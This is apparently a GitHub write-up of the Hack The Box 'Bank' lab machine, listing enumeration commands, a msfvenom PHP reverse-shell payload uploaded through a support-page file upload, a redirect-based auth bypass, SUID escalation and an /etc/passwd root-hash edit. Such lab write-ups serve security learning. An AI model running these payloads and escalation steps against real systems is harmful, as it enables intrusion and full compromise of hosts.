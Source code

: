 ![](assets/banner.png)


<p align="center">
  <img src="assets/htb.png" alt='HTB_logo'>
</p>


### Description:

- Pentesting the box shows that the dns ssh and http ports are open 
- Pentesting the ports revealed nothing, with virutal roust hosting we got a bunch of files to dig in
- Due to improper cryptographic fucntions credits for the web app is revealed
- LFI is used to obtain the initial shell and SUID binary is used for privilege escalation

### Difficulty:

`Linux - Easy`


#### Enumeration
- Open Ports `port 22, 53,80`
- No information gathered from the DNS Server
- Virtual host is guessed `bank.htb` and added to the `/etc/hosts`
- `balance-transfer` directory enumerated
- One file varies in size and reveals valid creds due to `failed encryption`
- The creds are used to login to the `web-app`
- `File Upload` in support page
- Comment found in page source
```html
I added the file extension .htb to execute as php for debugging purposes only
```

#### Shell Obtain
##### Via Metasploit
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=<your-ip> lport=<listening port> -f raw > shell.htb
```
- Upload the shell.htb in the support page and navigate to /uploads dir to get executed

##### Unintended Way
- In `burp` the support.php contents can be viewed without authentication as it mis-handles redirections


#### Priv Esc
- On running the `emergency` binary, the user is escalated to root group and root shell is obtained



#### Commands:

**DNS port Poking**
```bash
nslookup
> SERVER 10.10.10.29
# ask for who is localhost 127.0.0.1 Possiblities might expose a new host
> 127.0.0.1
# reverse lookup
> 10.10.10.29
# guessing the host name and it responds
> bank.htb
```

**DNS Recon**
```bash
# gathers all the host from 127.0.0.0 - 127.0.0.255 in the name server 10.10.10.29
dnsrecon -r 127.0.0.0/24 -n 10.10.10.29
# some host file may be included in 127.0.1.0 - 127.0.1.255
# If the 24 is replaced wirth `127.0.0.0/16` range will be from 127.0.0.0 - 127.0.255.255, if 8, 3 octacs will be checked
dnsrecon -r 127.0.1.0/24 -n 10.10.10.29
# On the 10 subnet
dnsrecon -r 10.10.10.0/24 -n 10.10.10.29
```

**DNS Zone Transfer**

```bash
# zone transfer without specifing a domain
dig axfr @10.10.10.29
# zone transfer on specifying the domain
dig axfr bank.htb @10.10.10.29
```

**Directory Enumeration**
```bash
python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -f -t 20 -u http://bank.htb
```

**Multiple files download and sorting**
```bash
# wget
# wgets all the files recursively
wget -r http://bank.htb/balance-transfer/
# sort
# obtains the no. of characters in each file and arranges in a decending order
wc -c *.acc | sort -nr 
```

**Find files with specific permission**
```bash
find / -perm -4000 -exec ls -la 2>/dev/null
```

**Editing passwd file**
```bash
- openssl passwd ippsec
<generated hash>
- vi /etc/passwd
# change the x field with the generated hash
root:asdasds:.......
- su  root
ippsec
```
